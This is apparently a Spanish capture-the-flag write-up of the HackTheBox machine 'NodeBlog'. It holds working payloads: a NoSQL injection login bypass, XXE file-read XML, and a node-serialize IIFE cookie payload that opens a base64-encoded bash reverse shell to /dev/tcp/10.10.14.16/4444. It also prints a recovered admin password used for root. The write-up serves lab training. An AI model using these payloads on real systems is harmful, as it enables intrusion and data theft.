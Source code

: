 ```yaml
---
title: NodeBlog
published: 2025-02-28
image: "./logo.png"
tags: [Easy, NoSQLi, XXE, Deserialization Attack, MongoDB Enum, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- NoSQL Injection (Authentication Bypass)
- XXE File Read
- NodeJS Deserialization Attack (IIFE Abusing)
- Mongo Database Enumeration

### Preparación

- eJPT  
- eWPT

***

## Reconocimiento

Para empezar vamos a hacer un escaneo para ver que puertos tiene abiertos esta máquina y que servicios y versiones usan.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.139
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnmWg5rPPFIoIbPsAiHkC%2Fimg1.png?alt=media&#x26;token=da1eb531-cf6a-4704-90f9-797e2d85f41a" alt=""><figcaption></figcaption></figure>

Vemos que tiene 2 puertos abiertos, el 22 **SSH** y el 5000 que está corriendo un servidor web con **Express** como framework. Primero accederemos a este segundo puerto para ver el contenido de la página web.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FuneOlLLaOdBTlRVXVOlV%2Fimg2.png?alt=media&#x26;token=329b8946-b3f8-4043-8edd-c8d4fe713938" alt=""><figcaption></figcaption></figure>

Parece un blog simple, pero podemos ver un botón _Login_, vamos a ver que hay.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FeFj7nau7FgmOMrR4tJ7O%2Fimg3.png?alt=media&#x26;token=cc52086a-ff52-4724-94ce-73173dea8c4c" alt=""><figcaption></figcaption></figure>

## Explotación



Si interceptamos la solicitud con **Burpsuite** y cambiamos el parámetro de _Content-Type_ de **application/x-www-form-urlencoded** a **application/json**, nos dará un error que nos permitirá ver dónde se ubica este servidor.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F7C0yV6KZnR9FZEWsjhNX%2Fimg4.png?alt=media&#x26;token=0aff2105-35b4-4562-bffb-7a09fa3d8afc" alt=""><figcaption></figcaption></figure>

Vemos que está en /opt/blog, esto puede ser útil en un futuro. Además en el panel de login si probamos un usuario aleatorio, nos da el error _Invalid username_, pero con el usuario **admin** no, por lo que ese si que sería válido. Podríamos probar una **inyección NoSQL** con estos parámetros:

```json
{  
"user": "admin",  
"password": {"$ne": null}  
}

// Además de cambiar a application/json
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0u1LQ4K79eG8YiKetHSD%2Fimg5.png?alt=media&#x26;token=ae8b61e5-ef16-4aa0-b4c2-8975c8909af9" alt=""><figcaption></figcaption></figure>

Podemos ver que hemos conseguido acceder. Si intentamos subir un archivo cualquiera devuelve lo siguiente: `Invalid XML Example: Example DescriptionExample Markdown` Por lo cual tendremos que hacer una **XXE Injection** (_XML External Entity_). Vamos a intentar un **LFI** creando un XML malicioso que injecte un comando.

{% code lineNumbers="true" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
<title>LFI Post</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FBrkjDHZ0Lydtkh5ujIgv%2Fimg6.png?alt=media&#x26;token=40ede2bd-4926-45ad-8b3c-b9793d4485f9" alt=""><figcaption></figcaption></figure>

Podemos ver que funciona correctamente, entonces como sabemos que el blog está en /opt/blog lo normal usando Express es que el archivo principal sea _server.js_ por lo que lo comprobaremos.

{% code lineNumbers="true" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
<post>
<title>Server Code</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


Nos devuelve lo siguiente:

{% code lineNumbers="true" %}
```javascript
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}


app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```


Podemos ver que usa el paquete de **node-serialize** el cual si buscamos un poco econtraremos que es [vulnerable](https://medium.com/@firstprof.com/hackthebox-writeup-active-676aa4bd605f). Vemos que se usa para deserializar la cookie. Entonces si le pasamos un código serializado de JavaScript malicioso, podremos obtener lo que se llama un **IIFE** (_Immediately Invoked Function Expression_) en consecuencia ejecución arbitraria de código. Para comprobar si esto es viable, crearemos un código simple para hacernos un ping a nosotros mismos. Para ello usaremos este código:


```json
serialize{"rserializece":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.16', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%31%36%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Entonces esa sería nuestra Auth Cookie maliciosa, simplemente la ponemos en el navegador:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnY8LvAONyGF5TKCgog3F%2Fimg7.png?alt=media&#x26;token=e624de38-1e6a-409e-a49a-88241263c64c" alt=""><figcaption></figcaption></figure>

> _Nota: A veces tienes que volver entrar a la web y poner la cookie porque va raro, pero deberías recibir el ping._

Al ponernos a la escucha con **tcpdump** por la interfaz tun0 recibimos el pin.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FaQG1JauarzjuHznxrjBB%2Fimg8.png?alt=media&#x26;token=60295bdc-285e-42d9-baef-c3935d822bfb" alt=""><figcaption></figcaption></figure>

Por lo que ya podríamos crear una revshell.

```sh
echo -n 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1' | base64
```

Quedaría algo así:

```
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx
```

Ahora lo metemos a la cookie añadiendo el decodeado y el bash para que lo ejecute:

```bash
echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash
```


```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%59%76%4e%44%51%30%4e%43%41%77%50%69%59%78%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Si lo pasamos a la cookie y nos ponemos a la escucha en el puerto **4444** obtendremos la shell.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FerZZ2ZKM7KyZ8BRc61tu%2Fimg9.png?alt=media&#x26;token=bd92f8ab-eab1-4a33-9274-2dc8ab59d966" alt=""><figcaption></figcaption></figure>

Deberemos de dar permisos para poder abrir /home/admin con:

```
chmod +x /home/admin
```

Y ya podremos ver la user flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FNsD8okbtIlI68zvy9j1M%2Fimg10.png?alt=media&#x26;token=d5d22649-8ead-45a7-8fb2-7e1b7a7454da" alt=""><figcaption></figcaption></figure>

Recordando que tenía **MongoDB** gracias al /etc/passwd podemos intentar listar los puertos abiertos internos de la máquina con:

```
ss -tln
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFYR9f8UQnPCgeKbhlE3z%2Fimg11.png?alt=media&#x26;token=233b8975-c119-4cf7-8360-bd3ec8b31cf9" alt=""><figcaption></figcaption></figure>

Efectivamente, vemos que el puerto **27017** está abierto. Si usamos mongo para listar DB y todo lo que contiene...

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdVHVb7sW5uBOD7k3bMT5%2Fimg12.png?alt=media&#x26;token=6497d7e0-d8d3-4833-a97e-f8cab1cf699e" alt=""><figcaption></figcaption></figure>

Vemos que hay una contraseña de un usuario admin, por lo que la copiamos:&#x20;

```
IppsecSaysPleaseSubscribe
```

Si hacemos un **sudo -l** nos devuelve con la contraseña:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdjZOzrl0JGBPCfZcZw55%2Fimg13.png?alt=media&#x26;token=a90e33fb-559a-464f-bbdb-7e5227a2a296" alt=""><figcaption></figcaption></figure>

Y ya simplemente hacemos sudo su y obtenemos la root flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FcLHMMIWIGn1MBy1oSNMf%2Fimg14.png?alt=media&#x26;token=3ebfb71a-9ff6-4c2c-a10c-6e8fec69a608" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/430)

---